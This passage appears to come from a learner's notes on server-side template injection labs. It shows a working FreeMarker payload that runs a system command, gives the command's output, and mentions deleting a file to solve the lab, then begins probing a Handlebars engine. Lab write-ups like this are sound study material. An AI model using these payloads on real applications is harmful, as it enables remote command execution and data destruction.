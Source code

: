   ```

* Now i used this command ->

  * ```
    <#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
    
    Result => uid=2002(carlos) gid=2002(carlos) groups=2002(carlos) 
    ```

* Done by removing morale.txt



References =>

`https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker`

`https://css-tricks.com/template-literals/`

`https://developers.google.com/web/updates/2015/01/ES6-Template-Strings`

`https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection`



#### 4. Server-side template injection in an unknown language with a documented exploit =>



* Again need to find which template engine using

* Product 1 -> Unfortunately this product is out of stock -> ?message=Unfortunately this product is out of stock

* Product 2 -> Working Fine

* So, testing experiment on Product 1

* When using simple payload -> {{7*7}} -> Error came ->

  * /usr/local/lib/node_modules/handlebars/dist/cjs/handlebars/compiler/parser.js:267
                throw new Error(str);
                ^

* From resources got this is -> Handlebars (NodeJS)  Template Engine

* This is the code ->

  * ```
  ```